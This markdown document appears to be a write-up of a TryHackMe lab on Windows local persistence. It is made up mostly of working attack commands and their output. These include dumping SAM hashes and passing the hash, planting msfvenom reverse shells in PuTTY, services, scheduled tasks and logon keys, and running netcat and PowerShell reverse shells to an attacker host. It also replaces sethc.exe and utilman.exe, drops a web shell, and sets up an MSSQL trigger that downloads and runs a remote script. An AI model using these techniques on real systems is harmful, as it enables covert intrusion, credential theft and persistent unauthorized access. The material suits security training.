

# Windows Local Persistence

In simple terms, [persistence](../common.md#persistence) refers to creating alternate ways to regain access to a host without going through the exploitation phase all over again.

## Tampering With Unprivileged Accounts

Having an administrator's credential would be the easiest way to achieve persistence in a machine. However, to make it harder for the blue team to detect us, we can manipulate unprivileged users, which usually won't be monitored as much as administrators, and grant them administrative privileges somehow.

<span style="font-size: 23px;">**Assign Group Membership**</span>

The direct way to make an unprivileged user gain administrative privileges is to make it part of the **Administrators** group. We can easily achieve this with the following command:


**Administrator**
```bash
net localgroup administrators thmuser0 /add
```
This will allow you to access the server by using RDP, WinRM or any other remote administration service available.

If this looks too suspicious, you can use the **Backup Operators** group.

```bash
net localgroup "Backup Operators" thmuser1 /add

net localgroup "Remote Management Users" thmuser1 /add

reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```

**Attack Machine**
```bash
evil-winrm -i 10.10.182.118 -u thmuser1 -p Password321

whoami /groups

reg save hklm\system system.bak
reg save hklm\sam sam.bak

download system.bak
download sam.bak
```

```bash
┌──(root㉿kali)-[~]
└─# evil-winrm -i 10.10.182.118 -u thmuser1 -p Password321
-----------------

Group Name                           Type             SID          Attributes
==================================== ================ ============ ==================================================
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators             Alias            S-1-5-32-551 Mandatory group, Enabled by default, Enabled group

*Evil-WinRM* PS C:\Users\thmuser1\Documents> reg save hklm\system system.bak
The operation completed successfully.

*Evil-WinRM* PS C:\Users\thmuser1\Documents> reg save hklm\sam sam.bak
The operation completed successfully.

*Evil-WinRM* PS C:\Users\thmuser1\Documents> download system.bak
Info: Downloading system.bak to ./system.bak

                                                             
Info: Download successful!

*Evil-WinRM* PS C:\Users\thmuser1\Documents> download sam.bak
Info: Downloading sam.bak to ./sam.bak

                                                             
Info: Download successful!
```
```bash
┌──(root㉿kali)-[~]
└─# python /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:f3118544a831e728781d780cfdb9c1fa:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
...
[*] Cleaning up... 

┌──(root㉿kali)-[~]
└─# evil-winrm -i 10.10.182.118 -u Administrator -H f3118544a831e728781d780cfdb9c1fa

*Evil-WinRM* PS C:\Users\Administrator\Documents> C:\flags\flag1.exe
THM{FLAG_BACKED_UP!}
```

<span style="font-size: 23px;">**Special Privileges and Security Descriptors**</span>

similar result to adding a user to the Backup Operators group can be achieved without modifying any group membership. Special groups are only special because the operating system assigns them specific privileges by default. **Privileges** are simply the capacity to do a task on the system itself. They include simple things like having the capabilities to shut down the server up to very privileged operations like being able to take ownership of any file on the system. A complete list of available privileges can be found [here](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants) for reference.

In the case of the Backup Operators group, it has the following two privileges assigned by default:

- **SeBackupPrivilege**: The user can read any file in the system, ignoring any DACL in place.
- **SeRestorePrivilege**: The user can write any file in the system, ignoring any DACL in place.

<span style="font-size: 23px;">**RID Hijacking**</span>

Another method to gain administrative privileges without being an administrator is changing some registry values to make the operating system think you are the Administrator.


When a user is created, an identifier called **Relative ID (RID)** is assigned to them. The RID is simply a numeric identifier representing the user across the system. When a user logs on, the LSASS process gets its RID from the SAM registry hive and creates an access token associated with that RID. If we can tamper with the registry value, we can make windows assign an Administrator access token to an unprivileged user by associating the same RID to both accounts.

[details](https://kevinovitz.github.io/TryHackMe_Writeups/windowslocalpersistence/windowslocalpersistence/#tampering-with-unprivileged-accounts)

---

## Backdooring Files 

Another method of establishing persistence consists of tampering with some files we know the user interacts with regularly. By performing some modifications to such files, we can plant backdoors that will get executed whenever the user accesses them. Since we don't want to create any alerts that could blow our cover, the files we alter must keep working for the user as expected.

<span style="font-size: 23px;">**Executable Files**</span>

If you find any executable laying around the desktop, the chances are high that the user might use it frequently. Suppose we find a shortcut to PuTTY lying around. If we checked the shortcut's properties, we could see that it (usually) points to `C:\Program Files\PuTTY\putty.exe`. From that point, we could download the executable to our attacker's machine and modify it to run any payload we wanted.

You can easily plant a payload of your preference in any .exe file with `msfvenom`. The binary will still work as usual but execute an additional payload silently by adding an extra thread in your binary. To create a backdoored putty.exe, we can use the following command:

```bash
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=ATTACKER_IP lport=4444 -b "\x00" -f exe -o puttyX.exe
```
The resulting puttyX.exe will execute a reverse_tcp meterpreter payload without the user noticing it. While this method is good enough to establish persistence, let's look at other sneakier techniques.

<span style="font-size: 23px;">**Shortcut Files**</span>

*backdoor.ps1*
```powershell
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4445"

C:\Windows\System32\calc.exe
```

```bash
powershell.exe -WindowStyle hidden C:\Windows\system32\backdoor.ps1
```


```bash
┌──(root㉿kali)-[~]
└─# nc -lvnp 4445
listening on [any] 4445 ...
connect to [10.10.26.49] from (UNKNOWN) [10.10.0.254] 49730
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>C:\flags\flag5.exe
C:\flags\flag5.exe
THM{NO_SHORTCUTS_IN_LIFE}
```

<span style="font-size: 23px;">**Hijacking File Associations**</span>

In addition to persisting through executables or shortcuts, we can hijack any file association to force the operating system to run a shell whenever the user opens a specific file type.

The default operating system file associations are kept inside the registry, where a key is stored for every single file type under `HKLM\Software\Classes\`. Let's say we want to check which program is used to open .txt files; we can just go and check for the .txt subkey and find which **Programmatic ID (ProgID)** is associated with it. A ProgID is simply an identifier to a program installed on the system. For `.txt` files, we will have the following ProgID:

*backdoor2.ps1*
```powershell
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe 10.10.26.49 1337"
C:\Windows\system32\NOTEPAD.EXE $args[0]
```
```powershell
powershell -windowstyle hidden C:\Windows\system32\backdoor2.ps1 %1
```


```bash
┌──(root㉿kali)-[~]
└─# nc -lvnp 4448
listening on [any] 4448 ...
connect to [10.10.26.49] from (UNKNOWN) [10.10.0.254] 49964
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\Desktop>C:\flags\flag6.exe
C:\flags\flag6.exe
THM{TXT_FILES_WOULD_NEVER_HURT_YOU}
```
---

## Abusing Services

Windows services offer a great way to establish persistence since they can be configured to run in the background whenever the victim machine is started. If we can leverage any service to run something for us, we can regain control of the victim machine each time it is started.

A service is basically an executable that runs in the background. When configuring a service, you define which executable will be used and select if the service will automatically run when the machine starts or should be manually started.

There are two main ways we can abuse services to establish persistence: either create a new service or modify an existing one to execute our payload.

<span style="font-size: 23px;">**Creating backdoor services**</span>

*generate payload*
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.26.49 LPORT=1337 -f exe-service -o rev-svc.exe
```
*transfer payload to the target system*
```bash
evil-winrm -i 10.10.0.254 -u Administrator -H f3118544a831e728781d780cfdb9c1fa

upload /root/rev-svc.exe C:\Windows\rev-svc.exe
```
*create a new service that points to this executable and starts at launch*
```bash
sc.exe create THMservice2 binPath= "C:\Windows\rev-svc.exe" start= auto
```
*Before starting this service, we should setup a listener with nc `nc -lvpn 1337`*
```bash
sc.exe start THMservice2
```
<span style="font-size: 23px;">**Modifying existing services**</span>

```bash
sc.exe query state= all
sc.exe query thmservice3
sc.exe qc thmservice3
```
```bash
sc.exe config thmservice3 binPath= "C:\Windows\rev-svc.exe" obj= "LocalSystem"
```
```bash
nc -nlvp 1337
sc.exe start THMservice3
```

We see we only need to change the binpath(BINARY_PATH_NAME) and account name(SERVICE_START_NAME) it will run as.

```bash
*Evil-WinRM* PS C:\Users\Administrator\Documents> sc.exe qc THMService3
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: THMService3
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\MyService\THMService.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : THMservice3
        DEPENDENCIES       :
        SERVICE_START_NAME : NT AUTHORITY\Local Service
*Evil-WinRM* PS C:\Users\Administrator\Documents> sc.exe config thmservice3 binPath= "C:\Windows\rev-svc.exe" obj= "LocalSystem"
[SC] ChangeServiceConfig SUCCESS
*Evil-WinRM* PS C:\Users\Administrator\Documents> sc.exe qc THMService3
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: THMService3
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\rev-svc.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : THMservice3
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```

*setup a listener with nc `nc -lvpn 1337` and start the service to get a connection back*
```bash
*Evil-WinRM* PS C:\Users\Administrator\Documents> sc.exe start THMservice3

SERVICE_NAME: THMservice3
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
        PID                : 3876
        FLAGS              :
```
---

## Abusing Scheduled Tasks

We can also use scheduled tasks to establish persistence if needed.

<span style="font-size: 23px;">**Task Scheduler**</span>

The most common way to schedule tasks is using the built-in **Windows task scheduler**. The task scheduler allows for granular control of when your task will start, allowing you to configure tasks that will activate at specific hours, repeat periodically or even trigger when specific system events occur. From the command line, you can use `schtasks` to interact with the task scheduler. A complete reference for the command can be found on [Microsoft's website](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/schtasks).

We can use the following command to create a task that will run every minute and creates a netcat connection back to our system.

```bash
schtasks /create /sc minute /mo 1 /tn THM-TaskBackDoor /tr "C:\tools\nc64 -e cmd.exe 10.10.26.49 1337" /ru SYSTEM
```

We can check if it was properly created with `schtasks` as well.

```bash
schtasks /query /tn THM-TaskBackDoor
```
Open regedit with SYSTEM privileges using `PsExec`:
```bash
C:\tools\pstools\PsExec.exe -i -s regedit
```

navigate to `Computer\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\THM-TaskBackDoor`  and remove or rename the SD key.


Querying the task again, should now give us an error.

Al that is left to do now, is setup our nc listener `nc -lvnp 1337` and wait for the task to run again.

---

## Logon Triggered Persistence

Some actions performed by a user might also be bound to executing specific payloads for persistence. Windows operating systems present several ways to link payloads with particular interactions. This task will look at ways to plant payloads that will get executed when a user logs into the system.

<span style="font-size: 23px;">**Startup folder**</span>

Each user has a folder under `C:\Users\<your_username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup` where you can put executables to be run whenever the user logs in. An attacker can achieve persistence just by dropping a payload in there. Notice that each user will only run whatever is available in their folder.

If we want to force all users to run a payload while logging in, we can use the folder under `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp` in the same way.

*generate payload*
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.26.49 LPORT=4450 -f exe -o revshell.exe
```
*http server to transfer payload*
```bash
python3 -m http.server 9080
```
```powershell
wget http://10.10.26.49:9080/revshell.exe -O revshell.exe
```
*copy this file to the startup folder for all users:*
```powershell
copy revshell.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\revshell.exe"
```

*loging out, setup a listener and remote back in again*
```bash
nc -lvnp 4450
```
<span style="font-size: 23px;">**Run / RunOnce**</span>

You can also force a user to execute a program on logon via the registry. Instead of delivering your payload into a specific directory, you can use the following registry entries to specify applications to run at logon:

- `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`
- `HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce`
- `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`
- `HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce`

The registry entries under `HKCU` will only apply to the current user, and those under `HKLM` will apply to everyone. Any program specified under the `Run` keys will run every time the user logs on. Programs specified under the `RunOnce` keys will only be executed a single time.

*generate payload*
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.26.49 LPORT=4451 -f exe -o revshell.exe
```

*http server to transfer payload*
```bash
python3 -m http.server 9080
```
```powershell
wget http://10.10.26.49:9080/revshell.exe -O revshell.exe
```
*copy this file to the `C:\Windows\revshell.exe`*
```powershell
copy revshell.exe "C:\Windows\revshell.exe"
```
Then create a `REG_EXPAND_SZ` registry entry under `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`. The entry's name can be anything you like, and the value will be the command we want to execute.


After doing this, sign out of your current session and log in again, and you should receive a shell (it will probably take around 10-20 seconds).

<span style="font-size: 23px;">**Winlogon**</span>

Another alternative to automatically start programs on logon is abusing Winlogon, the Windows component that loads your user profile right after authentication (amongst other things).

Winlogon uses some registry keys under `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\` that could be interesting to gain persistence:

- `Userinit` points to `userinit.exe`, which is in charge of restoring your user profile preferences.
- `shell` points to the system's shell, which is usually `explorer.exe`.

*generate payload*
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.26.49 LPORT=4452 -f exe -o revshell.exe
```

*http server to transfer payload*
```bash
python3 -m http.server 9080
```
```powershell
wget http://10.10.26.49:9080/revshell.exe -O revshell.exe
```
*copy this file to the `C:\Windows\revshell.exe`*
```powershell
copy revshell.exe "C:\Windows\revshell.exe"
```

Navigate to `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\` in the registry.

Append the userinit value with , `C:\Windows\revshell.exe`.


<span style="font-size: 23px;">**Logon scripts**</span>

One of the things `userinit.exe` does while loading your user profile is to check for an environment variable called `UserInitMprLogonScript`. We can use this environment variable to assign a logon script to a user that will get run when logging into the machine. The variable isn't set by default, so we can just create it and assign any script we like.

Notice that each user has its own environment variables; therefore, you will need to backdoor each separately.

*generate payload*
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.26.49 LPORT=4453 -f exe -o revshell.exe
```

*http server to transfer payload*
```bash
python3 -m http.server 9080
```
```powershell
wget http://10.10.26.49:9080/revshell.exe -O revshell.exe
```
*copy this file to the `C:\Windows\revshell.exe`*
```powershell
copy revshell.exe "C:\Windows\revshell.exe"
```
Navigate to `HKCU\Environment` and add en expandable string value called `UserInitMprLogonScript` and have it point to our payload.


---

## Backdooring the Login Screen / RDP

If we have physical access to the machine (or RDP in our case), you can backdoor the login screen to access a terminal without having valid credentials for a machine.

<span style="font-size: 23px;">**Sticky Keys**</span>

When pressing key combinations like `CTRL + ALT + DEL`, you can configure Windows to use sticky keys, which allows you to press the buttons of a combination sequentially instead of at the same time. In that sense, if sticky keys are active, you could press and release `CTRL`, press and release `ALT` and finally, press and release `DEL` to achieve the same effect as pressing the `CTRL + ALT + DEL` combination.

After pressing `SHIFT` 5 times, Windows will execute the binary in `C:\Windows\System32\sethc.exe`. If we are able to replace such binary for a payload of our preference, we can then trigger it with the shortcut. Interestingly, we can even do this from the login screen before inputting any credentials.

In order for this exploit to work, we need to take ownership of `sethc.exe` and give the admin account permission to modify it. Then make a backup just in case and overwrite the original with `cmd.exe`

```bash
takeown /F C:\Windows\system32\sethc.exe
```
```bash
icacls C:\Windows\system32\sethc.exe /grant Administrator:F
```
```bash
copy C:\Windows\system32\sethc.exe C:\Windows\system32\sethc.exe.bak
```
```bash
copy C:\Windows\system32\cmd.exe C:\Windows\system32\sethc.exe
```
After doing so, lock your session from the start menu

You should now be able to press `SHIFT` five times to access a terminal with SYSTEM privileges directly from the login screen.

<span style="font-size: 23px;">**Utilman**</span>

Utilman is a built-in Windows application used to provide Ease of Access options during the lock screen:

When we click the ease of access button on the login screen, it executes `C:\Windows\System32\Utilman.exe` with SYSTEM privileges. If we replace it with a copy of `cmd.exe`, we can bypass the login screen again.

```bash
takeown /F C:\Windows\system32\utilman.exe
```
```bash
icacls C:\Windows\system32\utilman.exe /grant Administrator:F
```
```bash
copy C:\Windows\system32\utilman.exe C:\Windows\system32\utilman.exe.bak
```
```bash
copy C:\Windows\system32\cmd.exe C:\Windows\system32\utilman.exe
```

---

## Persisting Through Existing Services

If you don't want to use Windows features to hide a backdoor, you can always profit from any existing service that can be used to run code for you. This task will look at how to plant backdoors in a typical web server setup. Still, any other application where you have some degree of control on what gets executed should be backdoorable similarly. The possibilities are endless!

<span style="font-size: 23px;">**Using Web Shells**</span>

```bash
wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/asp/cmdasp.aspx
```

*windows server*
```powershell
wget http://10.10.26.49:9080/cmdasp.aspx -O shell.aspx
```
```bash
move shell.aspx C:\inetpub\wwwroot\shell.aspx
```
If we now head to http://10.10.0.254/shell.aspx we should be able to access the shell.

If we are denied access to the file. This might be due to permission not transfering over. Lets change that
```bash
icacls C:\inetpub\wwwroot\shell.aspx /grant Everyone:F
```

<span style="font-size: 23px;">**Using MSSQL as a Backdoor**</span>

*evilscript.ps1*
```ps1
$client = New-Object System.Net.Sockets.TCPClient("10.10.26.49",4454);

$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
   $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
   $sendback = (iex $data 2>&1 | Out-String );
   $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
   $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
   $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush()
};

$client.Close()
```

*Microsoft SQL Server Management Studio 18*
```bash
sp_configure 'Show Advanced Options',1;
RECONFIGURE;
GO

sp_configure 'xp_cmdshell',1;
RECONFIGURE;
GO

USE master

GRANT IMPERSONATE ON LOGIN::sa to [Public];

USE HRDB

CREATE TRIGGER [sql_backdoor]
ON HRDB.dbo.Employees 
FOR INSERT AS

EXECUTE AS LOGIN = 'sa'
EXEC master..xp_cmdshell 'Powershell -c "IEX(New-Object net.webclient).downloadstring(''http://10.10.26.49:9080/evilscript.ps1'')"';
```

```bash
python3 -m http.server 9080

nc -lvnp 4454
```
With all that ready, let's navigate to `http://10.10.253.185/` and insert an employee into the web application. Since the web application will send an INSERT statement to the database, our TRIGGER will provide us access to the system's console.